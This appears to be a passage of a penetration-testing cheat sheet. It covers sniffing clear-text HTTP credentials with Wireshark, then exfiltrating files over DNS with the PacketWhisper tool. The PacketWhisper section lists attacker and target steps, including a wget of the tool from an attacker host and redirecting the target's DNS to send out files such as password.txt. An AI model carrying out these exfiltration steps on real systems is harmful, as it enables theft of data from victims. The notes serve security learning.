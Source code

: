 Tags: [WIRESHARK](#WIRESHARK)

This is especially important when dealing with HTTP and HTTPS servers and the security features. If a **man in the middle** attacker is able to sniff the traffic on our network and we were to enter a HTTP website with our credentials; the network sniffer would be able to see the successful login and actually capture your username and password directly. This is one of the examples why you don't want to send sensitive information through clear-text protocols.

Alternatively when going through HTTPS you will be able to see that the data packets and the contents are jumbled. The encrypted data is not readable to someone who has intercepted the data.

**Example of using HTTP to authenticate and wireshark to follow the TCP stream:**

![](Obsidian_GGjoT3rXKd.png)

**Example of attempting the same through HTTPS:**

![](Obsidian_Yvc6c1o5GO.png)

As you can see, the results are unreadable due to the encryption through using HTTPS.

[Back to Top](#table-of-contents)

------------------------------------------------------------------------------------------------------------------------------------------------------

## PacketWhisper

Tags: [WIRESHARK](#WIRESHARK), 

PacketWhisper is a python tool that can be used to exfiltrate and transfer interesting files or data through DNS **from the remote desktop** and **onto your own host**. It will *encrypt* and break the file up into  which is sent over the network through the outbound ports and then the host will be using WireShark to sniff the traffic that is being sent over the network; This traffic can then be combined into a file and converted back into the *interesting file* such a password.txt.

**NOTE:**

$Attacker$

> - `python -m SimpleHTTPServer $LPORT`
> - `wireshark` - Capture DNS traffic & save $FILE.pcap 
> - `mv $FILE.pcap $packetWhisperDIR`
> - `python packetWhisper.py`
> - Extract File from $FILE.pcap

$Target$

> - `python -version` 
> - `wget "$RHOST:$RPORT/$packetWhisper.py"`
> - `copy $FILEPATH $PacketWhisperDIR`
> - Change Internet DNS Settings to `$RHOST:$RPORT`
> - `python packetWhisper.py`
> - Send File over DNS:- Options - DNS Transmit, Random Subdomains, Cloudfront cipher, Half-second delay

![](https://i.imgur.com/iDKaPQY.png)
